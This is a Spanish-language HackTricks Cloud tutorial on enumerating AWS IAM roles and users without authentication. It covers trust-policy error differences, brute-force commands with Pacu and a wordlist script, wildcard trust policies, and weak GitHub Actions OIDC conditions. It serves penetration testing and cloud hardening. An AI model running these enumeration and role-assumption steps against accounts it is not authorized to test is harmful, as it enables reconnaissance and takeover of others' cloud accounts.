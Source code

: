 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## Enumerar Roles y Nombres de Usuario en una cuenta

### ~~Fuerza Bruta para Asumir Rol~~

{% hint style="danger" %}
**Esta técnica ya no funciona** ya que si el rol existe o no, siempre obtienes este error:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Puedes **probar esto ejecutando**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Intentar **asumir un rol sin los permisos necesarios** desencadena un mensaje de error de AWS. Por ejemplo, si no estás autorizado, AWS podría devolver:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Este mensaje confirma la existencia del rol, pero indica que su política de asunción de rol no permite su asunción. En contraste, intentar **asumir un rol que no existe conduce a un error diferente**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Interesantemente, este método de **distinguir entre roles existentes y no existentes** es aplicable incluso entre diferentes cuentas de AWS. Con un ID de cuenta de AWS válido y una lista de palabras dirigida, se pueden enumerar los roles presentes en la cuenta sin enfrentar limitaciones inherentes.

Puedes usar este [script para enumerar posibles principales](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum) abusando de este problema.

### Políticas de Confianza: Fuerza Bruta de roles y usuarios entre cuentas

Configurar o actualizar la **política de confianza de un rol de IAM implica definir qué recursos o servicios de AWS están permitidos para asumir ese rol** y obtener credenciales temporales. Si el recurso especificado en la política **existe**, la política de confianza se guarda **correctamente**. Sin embargo, si el recurso **no existe**, se **genera un error**, indicando que se proporcionó un principal no válido.

{% hint style="warning" %}
Ten en cuenta que en ese recurso podrías especificar un rol o usuario entre cuentas:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Este es un ejemplo de política:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Ese es el **error** que encontrarás si usas un **rol que no existe**. Si el rol **existe**, la política será **guardada** sin errores. (El error es para actualizar, pero también funciona al crear)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Puedes automatizar este proceso con [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Usando [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* El rol `admin` utilizado en el ejemplo es un **rol en tu cuenta que puede ser suplantado** por pacu para crear las políticas que necesita crear para la enumeración

### Privesc

En el caso de que el rol esté mal configurado y permita que cualquiera lo asuma:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
El atacante podría simplemente asumirlo.

## Federación OIDC de Terceros

Imagina que logras leer un **workflow de Github Actions** que está accediendo a un **rol** dentro de **AWS**.\
Esta confianza podría dar acceso a un rol con la siguiente **política de confianza**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Esta política de confianza puede ser correcta, pero la **falta de más condiciones** debería hacerte desconfiar de ella.\
Esto se debe a que el rol anterior puede ser asumido por **CUALQUIERA de Github Actions**. Deberías especificar en las condiciones también otras cosas como el nombre de la organización, el nombre del repositorio, el entorno, la rama...

Otra posible mala configuración es **agregar una condición** como la siguiente:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Note que el **comodín** (\*) antes de los **dos puntos** (:). Puedes crear una org como **org\_name1** y **asumir el rol** desde una acción de Github.

## Referencias

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}
